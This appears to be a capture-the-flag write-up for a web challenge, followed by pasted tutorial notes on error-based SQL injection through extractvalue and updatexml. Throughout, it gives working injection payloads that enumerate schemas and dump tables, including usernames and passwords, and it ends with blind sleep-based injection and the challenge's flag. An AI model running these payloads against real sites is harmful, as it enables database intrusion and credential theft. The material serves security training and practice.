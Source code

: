 > Write-up : 1.) ?xer=1' || extractvalue(1,concat(0x7e,(select database()),0x7e)) --+
			 2.) ?xer=1' || extractvalue(1,concat(0x7e,(select group_concat(schema_name) from infoorrmation_schema.schemata),0x7e))--+
			 3.) ?xer=1' || extractvalue(1,concat(0x7e,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='agentxer'),0x7e))--+ 
			 4.) ?xer=1' || extractvalue(1,concat(0x7e,(select group_concat(column_name) from infoorrmation_schema.columns where table_schema='agentxer' aandnd table_name='referers'),0x7e))--+
			 5.) ?xer=1' || extractvalue(1,concat(0x7e,(select group_concat(referer) from referers),0x7e))--+

> category : web

> Flag : darkCTF{S3cur3_s4f3_h0us3}

```


http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-Extractvalue.html

ExtractValue('xmldatahere', 'xpathqueryhere')

XPATH syntax error: 'xpathqueryhere'

always use group_concat

www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(OUR QUERY HERE)))--

www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select database())))--


www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))--

www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1)))--


www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select count(username) from users)))--


www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select count(username,0x3a,password) from users limit 0,1)))--

as you can see i used limit as we cannot extract long data which limits upto 32 characters. So i prefer :P to go one by one increasing the row to get the output. well if you want to dump the database go for any tool or manual proxy else create your own script to get the data dumped for you which I prefer to be the best option.

You can use SUBSTRING(fieldname,31,31) in order to extract the next 31 characters.
You need to run your injection twice (or as many times as needed) in order to extract the entire value of the field.

AND extractvalue(rand(),concat(0x3a,(SELECT SUBSTRING(fieldname,1,30) FROM tablename LIMIT 0,1)))--

Change 0,30 to 31,30 to get the next 31 characters. You can keep adding 31 (31,62,etc) until you get a single ":" as an answer

we can do select sleep(5); in sql this will sleep this also used for blind injection
where username like a% and select sleep(5);

http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-UpdateXML.html

and updatexml(null,concat(0x0a,query),null) -- -

```